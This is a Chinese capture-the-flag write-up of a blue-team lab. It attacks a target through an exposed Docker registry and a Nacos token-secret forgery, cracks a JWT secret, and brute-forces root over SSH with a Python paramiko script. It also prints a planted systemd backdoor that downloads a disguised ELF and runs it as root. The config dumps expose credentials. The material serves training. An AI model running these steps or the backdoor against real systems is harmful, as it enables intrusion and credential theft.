




# 第九章 - blueteam 的小心思 2

## 1

> nacos 的 key 为多少 flag\{base64decodekey\}

这个环境并不是常规的上机进行应急的题目，这里需要先对靶机进行渗透攻击

### 扫描靶机的开放端口

:::info

需要注意，环境启动需要一定时间，请稍等 3 分钟左右再开始扫描操作

同时，建议使用云服务器进行扫描，校园网和流量热点都有出现不同情况的干扰

:::

```plaintext title="nmap"
Nmap scan report for ec2-52-82-27-37.cn-northwest-1.compute.amazonaws.com.cn (52.82.27.37)
Host is up, received echo-reply ttl 43 (0.053s latency).
Scanned at 2024-05-26 16:18:35 CST for 65s
Not shown: 65520 closed ports
Reason: 65520 resets
PORT     STATE    SERVICE          REASON         VERSION
80/tcp   filtered http             no-response
135/tcp  filtered msrpc            no-response
136/tcp  filtered profile          no-response
137/tcp  filtered netbios-ns       no-response
138/tcp  filtered netbios-dgm      no-response
139/tcp  filtered netbios-ssn      no-response
443/tcp  filtered https            no-response
445/tcp  filtered microsoft-ds     no-response
593/tcp  filtered http-rpc-epmap   no-response
2222/tcp open     ssh              syn-ack ttl 42 OpenSSH 7.9p1 Debian 10+deb10u3 (protocol 2.0)
| ssh-hostkey:
|   2048 39:26:71:4c:4f:48:c1:4c:75:f5:2b:6e:1e:5f:a1:0d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDScdsKvBjbOe7CjYm9G72Ew8uoxRv5tW1GnMJ9xBhddn61r7Q9EAhKl9a09tqfkc9PMHLrbg4sUFplCadSBATDcvTsazozoYto7NVuNoJD12R5O5VgoVDzzk29bID0gWoYcsGKuZjJ9BOJ/CDMHExkHq38wfisrUbAaPS27UM3e1DOKuGMDzi18BKsj1ZCOuqDio9jUjhh3xKxuWqPLkc12DLq4oSVOGMZOX85xj261BWoqgOwVTBmDt0FC+z0fiJlZYLs3xboqxWpIjUN70kDwJjOz1Oen/UX5mldViig4fcj337OQsOZhAfMez7BqtEOY7BcCI+lU9r5eg4zNuNv
|   256 9b:38:86:a7:6c:e2:5b:43:0b:19:ae:05:71:54:7a:16 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOmA2ukt6Jc8jLKDMZBNDcZnQBRsO+wQaiOUuyeQELgZNjpz4WuDSjw3mI6yNpwzySl5jt7sZ1A5muuSCNb6K0I=
|   256 3b:42:08:0a:93:83:c1:97:08:50:d8:28:59:e4:27:23 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIARiXHVhbRW2QY2h2UMG6ZJBsz8DmScnvoRpeqH79epF
4444/tcp filtered krb524           no-response
5000/tcp open     http             syn-ack ttl 41 Docker Registry (API: 2.0)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title.
8080/tcp filtered http-proxy       no-response
8082/tcp open     blackice-alerts? syn-ack ttl 41
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, RPCCheck, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400
|     Date: Sun, 26 May 2024 08:19:00 GMT
|     Connection: close
|   FourOhFourRequest:
|     HTTP/1.1 404
|     Content-Type: application/json;charset=UTF-8
|     Date: Sun, 26 May 2024 08:18:55 GMT
|     Connection: close
|     {"timestamp":"2024/05/26 16:18:55","status":404,"error":"Not Found","message":"No message available","path":"/nice%20ports%2C/Tri%6Eity.txt%2ebak"}
|   GetRequest:
|     HTTP/1.1 302
|     Set-Cookie: JSESSIONID=B7F3E564B8918E2D2C135099568E6B6F; Path=/; HttpOnly
|     Location: http://localhost:8082/login.html
|     Content-Length: 0
|     Date: Sun, 26 May 2024 08:18:55 GMT
|     Connection: close
|   HTTPOptions:
|     HTTP/1.1 200
|     Allow: GET,HEAD,POST,PUT,PATCH,DELETE,OPTIONS
|     Content-Length: 0
|     Date: Sun, 26 May 2024 08:19:00 GMT
|_    Connection: close
8848/tcp open     unknown          syn-ack ttl 40
| fingerprint-strings:
|   GetRequest, HTTPOptions:
|     HTTP/1.1 404
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 431
|     Date: Sun, 26 May 2024 08:19:00 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 404
|     Found</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 404
|     Found</h1></body></html>
|   RTSPRequest:
|     HTTP/1.1 400
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Sun, 26 May 2024 08:19:00 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400
|_    Request</h1></body></html>
```

### 获取 nacos 镜像数据

在其中发现有 Docker Registry 服务，尝试进行访问

```json title="http://52.82.27.37:5000/v2/_catalog"
{
    "repositories": [
        "nacos"
    ]
}
```

发现存在有 `nacos` 镜像，查看镜像的 tags

```json title="http://52.82.27.37:5000/v2/nacos/tags/list"
{
    "name": "nacos",
    "tags": [
        "latest"
    ]
}
```

尝试将镜像获取到本地，首先需要改写本地 docekr 的安全策略，允许 http 不安全的注册表

```json title="/etc/docker/daemon.json"
{
    "insecure-registries" : ["52.82.27.37:5000"]
}
```

然后重启 dockerd

```bash
sudo systemctl daemon-reload
sudo systemctl restart docker
```

下载镜像

```bash
randark@developer:~/temp$ docker pull 52.82.27.37:5000/nacos:latest
latest: Pulling from nacos
2d473b07cdd5: Pull complete
8e2e6bf0e569: Pull complete
c7276c1c2105: Pull complete
2694550f92f1: Pull complete
b043b5656d6f: Pull complete
103731dfc453: Pull complete
e1dec0556439: Pull complete
4f4fb700ef54: Pull complete
48ba5d7d5cad: Pull complete
Digest: sha256:42ea3485ea154fbbc6b6bd26f497f046b1355e888fc1792d87a143644945dfb8
Status: Downloaded newer image for 52.82.27.37:5000/nacos:latest
52.82.27.37:5000/nacos:latest
```

然后基于此镜像启动一个容器

```bash
randark@developer:~/temp$ docker run -d 52.82.27.37:5000/nacos
85bc4f99c050386699c96560d65fd8150d88b4989d75158d8d23cc0b9e0955d9
```

将 vscode 附加进此容器，开始审计


在 `/home/nacos` 目录下启动 vscode 进行审计，以 key 作为关键词进行搜索，可以找到这条记录

```plaintext title="/home/nacos/conf/application.properties"
nacos.core.auth.plugin.nacos.token.secret.key=eGpuYWNvczIwMjNwZW5ndWluZWRpc2VjZmxhZ2ZsYWdmbGFn
```

经过 Base64 解码后得到

```plaintext
eGpuYWNvczIwMjNwZW5ndWluZWRpc2VjZmxhZ2ZsYWdmbGFn
xjnacos2023penguinedisecflagflagflag
```

```flag
flag{xjnacos2023penguinedisecflagflagflag}
```

## 2

> nacos 配置文件的 flag

从得到的 Docker 镜像中，可以得到以下三个配置项

```plaintext
nacos.core.auth.server.identity.key=nacosKey
nacos.core.auth.server.identity.value=nacosValue
nacos.core.auth.plugin.nacos.token.secret.key=eGpuYWNvczIwMjNwZW5ndWluZWRpc2VjZmxhZ2ZsYWdmbGFn
```

使用官方版本的 Nacos Docker Image 启动一个本地服务

```bash
git clone --depth 1 https://github.com/nacos-group/nacos-docker.git
cd nacos-docker
```

然后编辑 `./example/standalone-derby.yaml` 这个文件

```yaml
version: "2"
services:
  nacos:
    image: nacos/nacos-server:v2.2.3
    container_name: nacos-standalone
    environment:
      - PREFER_HOST_MODE=hostname
      - MODE=standalone
      - NACOS_AUTH_IDENTITY_KEY=nacosKey
      - NACOS_AUTH_IDENTITY_VALUE=nacosValue
      - NACOS_AUTH_TOKEN=eGpuYWNvczIwMjNwZW5ndWluZWRpc2VjZmxhZ2ZsYWdmbGFn
      - NACOS_AUTH_ENABLE=true
    volumes:
      - ./standalone-logs/:/home/nacos/logs
    ports:
      - "8848:8848"
      - "9848:9848"
  prometheus:
    container_name: prometheus
    image: prom/prometheus:latest
    volumes:
      - ./prometheus/prometheus-standalone.yaml:/etc/prometheus/prometheus.yml
    ports:
      - "9090:9090"
    depends_on:
      - nacos
    restart: on-failure
  grafana:
    container_name: grafana
    image: grafana/grafana:latest
    ports:
      - 3000:3000
    restart: on-failure
```

启动本地服务

```bash
docker compose -f example/standalone-derby-xj.yaml up
```

正常访问本地服务，使用 `nacos:nacos` 登录平台，抓包，拿到 accesskey



流量重放给靶机，即可得到以下配置文件信息

```json
{
  "totalCount": 3,
  "pageNumber": 1,
  "pagesAvailable": 1,
  "pageItems": [
    {
      "id": "710744516197363712",
      "dataId": "GATEWAY",
      "group": "DEFAULT_GROUP",
      "content": "spring:\r\n  cloud:\r\n    gateway:\r\n      routes:\r\n        - id: index\r\n          uri: lb://product-server\r\n          predicates:\r\n            - Method=GET",
      "md5": null,
      "encryptedDataKey": "",
      "tenant": "",
      "appName": "",
      "type": null
    },
    {
      "id": "710744516415467520",
      "dataId": "ADMIN_CONFIG",
      "group": "DEFAULT_GROUP",
      "content": "\n# 项目相关配置 \ nadmin-api:\n  # access_key_id 你的亚马逊 S3 服务器访问密钥 ID\n  accessKey: AAAZKIAWTRDCOOZNINALPHDWN\n  # secret_key 你的亚马逊 S3 服务器访问密钥 \ n  secretKey: LAX2DAwi7yntlLnmOQvCYAAGITNloeZQlfLUSOzvW96s5c\n  # bucketname 你的亚马逊 S3 服务器创建的桶名 \ n  bucketName: kefu-test-env\n  # bucketname 你的亚马逊 S3 服务器创建的桶名 \ n  regionsName: ap-east-1\n  # questionPicture 问题类型图片上传文件夹名称 \ n  questionPicture: questionFolder\n  # chatPicture 聊天图片上传文件夹名称 \ n  chatPicture: chatFolder\n  # rechargePicture 代客充值图片上传文件夹名称 \ n  rechargePicture: rechargeFolder\n   # 获取 ip 地址开关 \ n  addressEnabled: true\n  # 中后台的地址 \ n  url: http://localhost\n  # 中后台 API 地址 \ n  seektopserUrl: http://localhost/api/partner/user/info/base\n  # 中后台 API 请求 APPID\n  seektopAppId: A9AA30D1D30F459VS7B83C054B3EAD770D\n  # 中后台 API 请求密钥 \ n  seektopSecretKey: yT2BivSJLCR4lHb8SzhNFmHSF12pBm+a4IfdF42/a1quQdu5wqznM7YA==\n  # 客服关闭会话配置时间 \ n  closeChannelTime: 3\n   # redis-task 服务请求地址 \ n  redisTaskUrl: http://localhost:8586 \n  \nim:\n  server:\n    url: https://localhost:9507\n    secret: ^look^\n\n\nserver:\n  port: 8500\n  servlet:\n    context-path: /api\n\n# 配置数据源 \ nspring:\n  datasource:\n    druid:\n      url: jdbc:log4jdbc:mysql://127.0.0.1:3306/admin?serverTimezone=Asia/Shanghai&characterEncoding=utf8&useSSL=false\n      username: root\n      password: root\n\n  main:\n    allow-bean-definition-overriding: true\n\n  jpa:\n    hibernate:\n      # 生产环境设置成 none，避免程序运行时自动更新数据库结构 \ n      ddl-auto: none\n\n\nelasticsearch:\n    nodes: es.localhost:9200\n\n# 多数据源配置 \ ngt:\n  root:\n    boot:\n      #主动开启多数据源 \ n      multiDatasourceOpen: true\n      datasource[0]:\n        dbName: slave\n        url: jdbc:log4jdbc:mysql://127.0.0.1:3306/admin?serverTimezone=Asia/Shanghai&characterEncoding=utf8&useSSL=false\n        username: root\n        password: root\n\n#jwt\njwt:\n  header: Authorization\n  # 令牌前缀 \ n  token-start-with: Bearer\n  # 必须使用最少 88 位的 Base64 对该令牌进行编码 \ n  base64-secret: ZmQ0ZGI5NjQ0MDQwY2I4MjMxY2Y3ZmI3MjdhN2ZmMjNhODViOTg1ZGE0NTBjMGM4NDA5NzYxMjdjOWMwYWRmZTBlZjlhNGY3ZTg4Y2U3YTE1ODVkZDU5Y2Y3OGYwZWE1NzUzNWQ2YjFjZDc0NGMxZWU2MmQ3MjY1NzJmNTE0MzI=\n  # 令牌过期时间 此处单位 / 毫秒 ，默认 4 小时，可在此网站生成 https://www.convertworld.com/zh-hans/time/milliseconds.html\n  token-validity-in-seconds: 14400000\n  # 在线用户 key\n  online-key: online-token\n  # 验证码 \ n  code-key: code-key\n\n# 是否允许生成代码，生产环境设置为 false\ngenerator:\n  enabled: false\n\n# 是否开启 swagger-ui\nswagger:\n  enabled: true\n\n\n# 七牛云 \ nqiniu:\n  # 文件大小 /M\n  max-size: 15\n\n# 邮箱验证码有效时间 / 分钟 \ ncode:\n  expiration: 5\n\n# 登录图形验证码有效时间 / 分钟 \ nloginCode:\n  expiration: 2\n\n# sm.ms 图床的 token\nsmms:\n  token: 1oOP3ykFDI0K6ifmtvU7c8Y1eTWZSlyl\n\n# file-managerpassword\nfile-manager:\n  name: admin\n  password: xj2023@1578921@123\n  jwtkey: 123456\n#flag{9d7ffcef-bcd1-4f4b-9a2d-d51862484168}\ntask:\n  pool:\n    # 核心线程池大小 \ n    core-pool-size: 10\n    # 最大线程数 \ n    max-pool-size: 30\n    # 活跃时间 \ n    keep-alive-seconds: 60\n    # 队列容量 \ n    queue-capacity: 50\n\n# 将该工程应用名称添加到计量器注册表的 tag 中 \ n# 开启 Actuator 服务 \ nmanagement:\n  endpoints:\n    web:\n      exposure:\n        include:'*'\n  metrics:\n    tags:\n      application: admin-api",
      "md5": null,
      "encryptedDataKey": "",
      "tenant": "",
      "appName": "",
      "type": null
    },
    {
      "id": "710744516436439040",
      "dataId": "ADMIN_API",
      "group": "DEFAULT_GROUP",
      "content": "# 项目相关配置 \ r\nadmin-api:\r\n  # access_key_id 你的亚马逊 S3 服务器访问密钥 ID\r\n  accessKey: AAKIAWTRDCOOZNINALPHDWN\r\n  # secret_key 你的亚马逊 S3 服务器访问密钥 \ r\n  secretKey: 2DAwi7yntlLnmOQvCYAAGITNloeZQlfLUSOzvW96s5c\r\n  # bucketname 你的亚马逊 S3 服务器创建的桶名 \ r\n  bucketName: kefu-test-env\r\n  # bucketname 你的亚马逊 S3 服务器创建的桶名 \ r\n  regionsName: ap-east-1\r\n  # questionPicture 问题类型图片上传文件夹名称 \ r\n  questionPicture: questionFolder\r\n  # chatPicture 聊天图片上传文件夹名称 \ r\n  chatPicture: chatFolder\r\n   # 获取 ip 地址开关 \ r\n  addressEnabled: true\r\n  # 中后台的地址 \ r\n  url: http://127.0.0.1\r\n  # 中后台 API 地址 \ r\n  seektopserUrl: http://127.0.0.1/api/partner/user/info/base\r\n  # 中后台 API 请求 APPID\r\n  seektopAppId: A9AA30D1D30F4597B83C054B3EAD770D\r\n  # 中后台 API 请求密钥 \ r\n  seektopSecretKey: yT2BivSJLCR4lHb8hNFmHSF12pBm+a4IfdF42/a1quQdu5wqznM7YA==\r\n  # 客服关闭会话配置时间 \ r\n  closeChannelTime: 3\r\n   # redis-task 服务请求地址 \ r\n  redisTaskUrl: http://localhost:8586 \r\n   # SEO 代理帳號 \ r\n  seoAgentName: \r\n  \r\nim:\r\n  server:\r\n    url: http://localhost:9507/\r\n    secret: ^look^\r\n\r\n\r\nserver:\r\n  port: 8500\r\n  servlet:\r\n    context-path: /api\r\n\r\n# 配置数据源 \ r\nspring:\r\n  datasource:\r\n    druid:\r\n      url: jdbc:log4jdbc:mysql://127.0.0.1:3306/admin?serverTimezone=Asia/Shanghai&characterEncoding=utf8&useSSL=false\r\n      username: root\r\n      password: root\r\n\r\n  main:\r\n    allow-bean-definition-overriding: true\r\n\r\n  jpa:\r\n    hibernate:\r\n      # 生产环境设置成 none，避免程序运行时自动更新数据库结构 \ r\n      ddl-auto: none\r\n\r\n\r\nelasticsearch:\r\n    nodes: es.localhost:9200\r\n\r\n#jwt\r\njwt:\r\n  header: Authorization\r\n  # 令牌前缀 \ r\n  token-start-with: Bearer\r\n  # 必须使用最少 88 位的 Base64 对该令牌进行编码 \ r\n  base64-secret: ZmQ0ZGI5NjQ0MDQwY2I4MjMxY2Y3ZmI3MjdhN2ZmMjNhODViOTg1ZGE0NTBjMGM4NDA5NzYxMjdjOWMwYWRmZTBlZjlhNGY3ZTg4Y2U3YTE1ODVkZDU5Y2Y3OGYwZWE1NzUzNWQ2YjFjZDc0NGMxZWU2MmQ3MjY1NzJmNTE0MzI=\r\n  # 令牌过期时间 此处单位 / 毫秒 ，默认 4 小时，可在此网站生成 https://www.convertworld.com/zh-hans/time/milliseconds.html\r\n  token-validity-in-seconds: 14400000\r\n  # 在线用户 key\r\n  online-key: online-token\r\n  # 验证码 \ r\n  code-key: code-key\r\n\r\n# 是否允许生成代码，生产环境设置为 false\r\ngenerator:\r\n  enabled: false\r\n\r\n# 是否开启 swagger-ui\r\nswagger:\r\n  enabled: true\r\n\r\n# 文件存储路径 \ r\nfile:\r\n  mac:\r\n    path: ~/file/\r\n    avatar: ~/avatar/\r\n  linux:\r\n    path: /home/admin/file/\r\n    avatar: /home/admin/avatar/\r\n  windows:\r\n    path: C:\\admin\\file\\\r\n    avatar: C:\\admin\\avatar\\\r\n  # 文件大小 /M\r\n  maxSize: 100\r\n  avatarMaxSize: 5\r\n\r\n# 七牛云 \ r\nqiniu:\r\n  # 文件大小 /M\r\n  max-size: 15\r\n\r\n# 邮箱验证码有效时间 / 分钟 \ r\ncode:\r\n  expiration: 5\r\n\r\n# 登录图形验证码有效时间 / 分钟 \ r\nloginCode:\r\n  expiration: 2\r\n\r\n# sm.ms 图床的 token\r\nsmms:\r\n  token: 1oOP3ykFDI0K6ifmtvU7c8Y1eTWZSlyl\r\n\r\ntask:\r\n  pool:\r\n    # 核心线程池大小 \ r\n    core-pool-size: 10\r\n    # 最大线程数 \ r\n    max-pool-size: 30\r\n    # 活跃时间 \ r\n    keep-alive-seconds: 60\r\n    # 队列容量 \ r\n    queue-capacity: 50",
      "md5": null,
      "encryptedDataKey": "",
      "tenant": "",
      "appName": "",
      "type": null
    }
  ]
}
```

在其中的注释，就有 flag

同时，在配置文件中，有 8082 端口上 FMS 系统的凭据

```plaintext
file-manager:
  name: admin
  password: xj2023@1578921@123
  jwtkey: 123456
```

```flag
flag{9d7ffcef-bcd1-4f4b-9a2d-d51862484168}
```

## 3

> File Management System 的 flag

利用上文得到的凭据进入 FMS 系统



但是系统提示权限不足，需要身份为 sysadmin123456 用户

Cookie 中得到一份 JWT，其中包含有用户名，爆破可以得到 JWT 的密钥为 123456，于是可以直接修改重签为



JWT 处理好之后，替换本地的 cookie，然后访问 fms



就可以得到三个文件，重点放在 Excel 文件

同时，尝试上传文件的时候，返回的信息中包含有 flag

```flag
flag{d6c578d4a41a141d731fe7c36c8c0f77}
```

## 4

使用以下代码进行爆破

```python
import pandas as pd

# 读取 Excel 文件
data = pd.read_excel("./ 运维账号. xlsx")

column_data = data["密码"]

passwords = column_data.to_list()

print(passwords)

import paramiko

for password in passwords:
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        ssh.connect("69.230.211.19", port=2222, username="root", password=password)
    except paramiko.ssh_exception.AuthenticationException:
        print(password, "Failed")
        ssh.close()
        continue
    print(password)
```

经过 SSH 爆破，可以得到 root 的密码为 `imArGcj9`

```flag
flag{imArGcj9}
```

## 5

> 黑客留下的 backdoor 后门的绝对路径

对系统的自启动（Enabled）服务进行排查

```bash
(remote) root@ip-10-0-10-1:/lib/systemd/system# systemctl list-unit-files --type=service --state=enabled
UNIT FILE                              STATE
amazon-ssm-agent.service               enabled
apparmor.service                       enabled
autovt@.service                        enabled
cloud-config.service                   enabled
cloud-final.service                    enabled
cloud-init-local.service               enabled
cloud-init.service                     enabled
containerd.service                     enabled
cron.service                           enabled
dbus-org.freedesktop.timesync1.service enabled
docker.service                         enabled
evilfms.service                        enabled
fms.service                            enabled
getty@.service                         enabled
networking.service                     enabled
ntp.service                            enabled
resolvconf.service                     enabled
rsyslog.service                        enabled
ssh.service                            enabled
sshd.service                           enabled
syslog.service                         enabled
systemd-timesyncd.service              enabled
unscd.service                          enabled

23 unit files listed.
```

在其中发现 `evilfms.service` 这个服务

```conf title="/etc/systemd/system/evilfms.service"
[Unit]
Description=My evil App
After=network.target

[Service]
ExecStart=bash -c "curl -o /tmp/shell.elf http://localhost:8082/assets/images/fti/txt.png  && chmod +x /tmp/shell.elf & ./tmp/shell.elf&"
WorkingDirectory=/home/
User=root

[Install]
WantedBy=multi-user.target
```

答案是服务配置文件的路径

```flag
flag{/etc/systemd/system/evilfms.service}
```
